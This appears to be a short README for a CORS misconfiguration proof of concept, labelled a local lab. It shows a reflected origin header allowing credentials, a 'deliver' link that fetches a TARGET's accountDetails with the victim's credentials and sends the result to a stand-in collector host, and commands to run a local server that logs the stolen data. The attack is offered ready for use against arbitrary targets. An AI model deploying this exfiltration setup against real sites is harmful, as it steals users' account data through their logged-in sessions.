 # CORS PoC (local lab)
case 1 reflections
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true

Now you can send a single “deliver” link such as:
https://ythone.github.io/cors_poc/deliver.html?target=https://TARGET/accountDetails&creds=1&exfil=https://your-collector.example/collect

https://ythone.github.io/cors_poc/deliver.html
  ?target=https://TARGET/accountDetails
  &creds=1
  &exfil=https://your-collector.example/collect


Run locally:

npm i
node server.js
# -> POST target data to http://localhost:8089/collect ; view http://localhost:8089/logs


Point your PoC’s exfil to that /collect endpoint.
